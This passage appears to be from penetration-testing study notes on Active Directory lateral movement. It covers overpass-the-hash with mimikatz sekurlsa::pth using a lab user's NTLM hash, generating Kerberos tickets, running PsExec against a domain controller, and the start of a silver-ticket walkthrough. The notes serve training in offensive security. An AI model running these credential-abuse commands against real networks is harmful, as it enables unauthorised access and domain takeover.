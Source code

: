 <mark style="color:yellow;">Our goal is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication.</mark>&#x20;

We can do this will sekurlsa::pth from mimikatz:

```
sekurlsa::pth /user:jeff_admin /domain:corp.com 
/ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

* Now that we have a new PowerShell session, we can execute commands as this user.

List cached Kerberos tickets:

```
klist

#if there are none, generate some by authenticating to the network share

net use \\hostname

klist
```

It is possible for PsExec to run a command remotely but does not accept password hashes.

This is possible with a generated Kerberos hash. We can then reuse this TGT to obtain code execution on the DC.

By running PsExec to launch cmd.exe remotely on a remote machine as a high privileged user:

```
.\PsExec.exe \\dc01 cmd.exe

C:\Windows\System32>
```

## Pass the Ticket (Silver Ticket)

The Pass the Ticket attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network.

It can then be used to authenticate to a service.

If the service tickets belong to the current user, no administrative privileges are required.

Mimikatz can craft a silver ticket and inject it into memory using the kerberos::golden command

* <mark style="color:yellow;">Yes, the syntax is misleading.</mark>

To create a ticket, we need the Security Identifier or SID of the domain.

Example of SID:

```
S-1-5-21-2536614405-3629634762-1218571035-1116

```

<mark style="color:yellow;">We can easily find the SID of our current user with the whoami /user command and extract the domain SID part of it.</mark>
